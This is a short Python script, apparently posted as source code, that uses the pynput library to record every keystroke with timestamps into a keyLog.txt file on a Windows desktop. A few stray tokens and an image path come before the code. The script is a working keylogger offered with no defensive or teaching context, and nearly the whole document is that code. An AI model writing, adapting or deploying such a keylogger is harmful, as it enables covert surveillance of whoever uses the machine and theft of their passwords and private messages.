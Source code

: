 # sgr
capgm
from pynput.keyboard import Key, Listener
import logging


log_dir = r"C:/users/user_name/desktop/"
logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
def on_press(key):
   logging.info(str(key))


with Listener(on_press=on_press) as listener:
    listener.join()
